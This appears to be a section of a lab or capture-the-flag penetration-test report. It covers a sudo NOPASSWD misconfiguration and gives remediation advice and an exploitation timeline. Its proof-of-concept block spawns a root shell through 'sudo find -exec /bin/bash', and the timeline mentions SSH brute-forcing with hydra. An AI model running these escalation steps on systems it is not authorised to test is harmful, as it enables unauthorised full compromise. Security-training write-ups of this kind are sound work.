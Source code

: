 ### 3️⃣ SCTF-03: Sudo NOPASSWD Misconfiguration – Critical  
**CWE:** [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)

**Summary:**  
The compromised low-privileged user is allowed to run one or more binaries via `sudo` without a password (`NOPASSWD`), enabling root shell spawn.

**Impact:**  
Immediate full system compromise (root) — attacker can bypass local security and persist.

**PoC (GTFOBins / lab-specific):**
```bash
# 1) Check sudo privileges for current user
sudo -l

# Example output might show:
# (user) NOPASSWD: /usr/bin/find

# 2) Exploit allowed binary to spawn root shell (lab-only)
sudo /usr/bin/find . -exec /bin/bash \; -quit

# OR if /bin/bash is allowed:
sudo /bin/bash

# Verify:
whoami   # -> root
id
```

**Remediation:**  
- Remove `NOPASSWD` entries; require a password for `sudo`.  
- Restrict `sudo` to minimal, necessary commands and use command whitelisting carefully.  
- Regularly audit `/etc/sudoers` and deployed sudoers.d fragments.

---

## ⏱ Exploitation Timeline

| Phase | Time Taken | Summary | Evidence |
|---:|---:|---|---|
| Reconnaissance | 10 mins | Nmap scan — open ports: 22, 80 | nmap output |
| Initial Enumeration | 20 mins | Web discovery, dirb/gobuster | gobuster logs |
| Initial Access | 30 mins | Credential brute-force (SSH) | hydra output (redacted) |
| Local Enumeration | 25 mins | `sudo -l`, file perms, linpeas | local enumeration logs |
| Privilege Escalation | 10 mins | Sudo NOPASSWD → root | exploit output |
| Flag Retrieval | 10 mins | User & root flags captured (redacted) | redacted flags |
| Documentation | 1 hr | Report writing & formatting | N/A |

---